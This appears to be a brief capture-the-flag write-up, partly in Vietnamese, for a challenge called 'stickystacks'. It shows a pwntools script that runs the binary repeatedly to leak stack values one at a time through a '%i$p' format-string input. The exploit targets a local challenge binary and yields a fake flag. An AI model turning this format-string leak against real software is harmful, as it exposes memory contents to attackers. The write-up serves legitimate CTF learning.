

this chall limits our input

```c
fgets(name, 6, stdin);
```

so, we have to run it over and over to leak i th value from the stack: [minh run locally thoi]

```python
# expoit.py
from pwn import *
data_list = []
for i in range(1, 50):
    # run '77' 49 lan
    p = process('./stickystacks')
    p.sendline(f'%{i}$p')
    p.recvuntil('Welcome, ')        # pass 'Welcome, '
    leak_stack = p.recvline()[:-1]  # [:-1] - avoid '\n'
    if(leak_stack != b'(nil)'):
        data_list.append(p64(int(leak_stack.decode(), 16)))
    continue
print(data_list)
```

Result: [fake_flag :v]



